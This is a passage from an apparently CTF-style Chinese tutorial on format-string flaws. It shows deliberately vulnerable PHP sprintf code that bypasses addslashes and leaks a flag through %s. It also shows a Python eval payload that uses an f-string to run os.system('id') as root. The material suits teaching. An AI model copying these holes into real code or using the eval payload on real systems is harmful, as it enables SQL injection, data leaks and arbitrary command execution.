 ```php
<?php
$name = addslashes($_GET[name]);
echo sprintf("select * from product where filename = '$name' and adddate <= '%s' limit 1\n",date("Y-m-d H:i:s"));
?>
```
[![YF0but.png](https://s1.ax1x.com/2020/05/05/YF0but.png)](https://imgchr.com/i/YF0but)

同样可以吞噬
![YF6nns.png](https://s1.ax1x.com/2020/05/05/YF6nns.png)
### ② 数据泄露

这个属于开发问题，不小心就会把其他数据带出
简单例题
```php
<?php
include('flag.php');
function welcome($arr)
{
	$data = "I am looking at you %s";
	foreach ($arr as $_k => $_v) {
		$data = sprintf($data,$_v);
	}
	echo $data;
}
$arr = array($_GET['myname'],$flag);
echo welcome($arr).'<br>';
highlight_file(__FILE__);
?>
```

当用户输入%s的时候就可以把flag 带出来
![YFcV56.png](https://s1.ax1x.com/2020/05/05/YFcV56.png)

## (2)Python格式化漏洞

### ①f修饰符任意命令执行

当使用eval解析json数据时
```python
In [21]: test ='{"name":"Diego","age":9999}'
In [22]: eval(test)
Out[22]: {'name': 'Diego', 'age': 9999}

In [23]: test ='{"name":"Diego","age":f"{__import__(\'os\').system(\'id\')}"}'
In [24]: eval(test)
uid=0(root) gid=0(root) 组=0(root)
Out[24]: {'name': 'Diego', 'age': '0'}
```

### ② format 格式化
